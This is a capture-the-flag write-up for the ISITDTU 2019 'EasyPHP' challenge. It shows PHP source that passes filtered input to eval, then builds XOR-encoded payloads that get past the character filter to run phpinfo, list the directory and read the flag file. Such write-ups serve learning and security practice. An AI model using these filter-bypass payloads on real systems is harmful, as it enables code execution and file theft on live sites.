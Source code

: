 # ISITDTU CTF 2019 - EasyPHP

```
EasyPHP - Web - 871 Points (20 Solves)
Don't try to run any Linux command, just use all the PHP functions you know to get the flag
http://165.22.57.95:8000/
```

## Source

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"\`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

The goal of the challenge is to execute PHP code bypassing restrictions:
- We can only use a reduced set of characters.
- We can only use 13 different characters at the same time.

### Allowed Functions

Combining `get_defined_functions()` with the previous regular expression we show which PHP functions we can use.

- rtrim, trim, ltrim
- chr
- link, unlink
- tan, atan, atanh, tanh
- intval
- mail
- min, max

On the other hand, we have the following ascii characters available:
`!#%()*+-/:;<=>?@ABCHIJKLMNQRTUVWXYZ\]^abchijklmnqrtuvwxyz}~`


### Testing environment

Modifying the source code of the test, we set up a local environment in which to test commands with fewer limitations.

We prove that it is possible to execute functions from a string. It is not possible to use *echo*, *print* or *include*.
```
'echo'();
Call to undefined function echo()
```

### Getting string

One of the limitations is not being able to use any type of quotation mark to use a string. Given the available functions, the need to use the `chr` function seems obvious.

Using this payload we can get any character, however, not being able to use the concatenation operator `.`, we can only generate one character and we can not use functions.

```php
chr((a==a)+(a==a)+...) -> 'A'
```

### Getting valid string

When we use a text without quotes, PHP tries to interpret it as a constant, and if it doesn't, it converts it to string.

`undefined constant aaa - assumed 'aaa'`


With the help of [@phiber](https://twitter.com/phib_) we manage to use the XOR `^` operator to evade the filter and use characters that are not allowed.

With the following string we can execute `phpinfo`.
```
(qiqhnin^iiiiibi^hhhhimh)();
```
We can see how it's running PHP 7.3.6. Besides getting the list of disabled functions, which are all those that could allow execution of commands, including `mail` and `imap_open`. Another configuration to take into account is the `open_basedir` variable, which is configured in such a way that it is not allowed to escape from the current directory.

![](img/phpinfo.jpg)


### Directory Listing

Once we have verified that we can execute PHP code, we try to use file system functions in order to enumerate files.

Both `glob('*')` and `scandir('.')` return an array, which forces us to use a function that shows us an array on screen as `print_r` or `var_dump`.

Since the functions are very similar, we choose the combination that uses the least number of different characters.

```
10 - var_dump()
 8 - print_r()
 8 - glob('*')
11 - scandir('.')

16 - var_dump(scandir('.'))
16 - var_dump(glob('*'))

14 - print_r(scandir('.'))
14 - print_r(glob('*'))
```

We converted it to XOR format, to simplify the process, [@phiber](https://twitter.com/phib_) recommended me to use `%FF` as a base character, since PHP also interprets it as a string.

```
print_r ^ 0xff -> 0x8f8d96918ba08d -> ((%ff%ff%ff%ff%ff%ff%ff)^(%8f%8d%96%91%8b%a0%8d))
scandir ^ 0xff -> 0x8c9c9e919b968d -> ((%ff%ff%ff%ff%ff%ff%ff)^(%8c%9c%9e%91%9b%96%8d))
      . ^ 0xff -> 0xd1             -> ((%ff)^(%d1))
```

We assemble the complete function and close with `;`. A total of 16 different characters are used.

```
((%ff%ff%ff%ff%ff%ff%ff)^(%8f%8d%96%91%8b%a0%8d))(((%ff%ff%ff%ff%ff%ff%ff)^(%8c%9c%9e%91%9b%96%8d))(((%ff)^(%d1))));
```

### Simplify characters

With a simple script we look for which characters can be generated as XOR combination of others, so that we can save a few characters.

```
._acdinprst

t = s^c^d
n = i^c^d
r = a^c^p

print_r -> ((%ff%ff%ff%ff%ff%ff%ff)^(%8f%9e%96%96%8c%a0%9e)^(%ff%9c%ff%9c%9c%ff%9c)^(%ff%8f%ff%9b%9b%ff%8f))
scandir -> ((%ff%ff%ff%ff%ff%ff%ff)^(%8c%9c%9e%96%9b%96%9e)^(%ff%ff%ff%9c%ff%ff%9c)^(%ff%ff%ff%9b%ff%ff%8f))
```

By saving 3 characters, we get a valid payload with 13 different characters.

![](img/scandir.jpg)

In this way we know the name of the file, but the web server denies the request of `txt` files.

We do the same process to generate a payload with `readfile(end(scandir(.)))` and read the flag.

![](img/readfile.jpg)
